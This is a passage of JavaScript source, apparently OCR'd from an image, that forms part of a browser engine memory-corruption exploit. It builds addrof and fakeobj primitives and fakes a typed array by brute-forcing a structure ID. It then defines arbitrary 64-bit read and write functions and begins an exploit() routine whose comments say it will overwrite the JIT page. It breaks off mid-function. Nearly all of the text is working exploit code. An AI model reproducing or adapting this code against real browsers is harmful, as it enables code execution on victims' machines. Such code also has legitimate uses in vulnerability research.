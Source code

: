 
        // Get the address of the values we stored in obj
        let objAddr = prims.addrof(obj).add(16);
        log("Obj addr + 16 = "+objAddr);

        // Create a fake object from this pointer
        let fakearray = prims.fakeobj(objAddr);

        // Attempt to find a valid ID for our fake object
        while(!(fakearray instanceof Float64Array)) {
            jscell.add(1);
            obj['a'] = jscell.asDouble();
        }

        log("Matched structure id!");

        // Set data at a given address
        prims.set = function(addr, arr) {
            fakearray[2] = addr.asDouble();
            utarget.set(arr);
        }

        // Read 8 bytes as an Int64 at a given address
        prims.read64 = function(addr) {
            fakearray[2] = addr.asDouble();
            let bytes = Array(8);
            for (let i=0; i<8; i++) {
                bytes[i] = utarget[i];
            }
            return new Int64(bytes);
        }

        // Write an Int64 as 8 bytes at a given address
        prims.write64 = function(addr, value) {
            fakearray[2] = addr.asDouble();
            utarget.set(value.bytes);
        }
    }

    // Here we will use build primitives to eventually overwrite the JIT page
    function exploit(corrupted_arr, groom) {
        save.push(groom);
        save.push(corrupted_arr);

        // Create fakeobj and addrof primitives
        let prims = findArrayOOB(corrupted_arr, groom);

        // Upgrade to arb read/write from OOB read/write
        getArb(prims);

        // Build an arbitrary JIT function
        // This was basically just random junk to make the JIT function larger
        let jit = function(x) {
            var j = []; j[0] = 0x6323634;
            return x*5 + x - x*x /0x2342513426 +(x - x+0x85720642 *(x +3 -x / x+0x41424344)/0x41424344)+j[0]; };
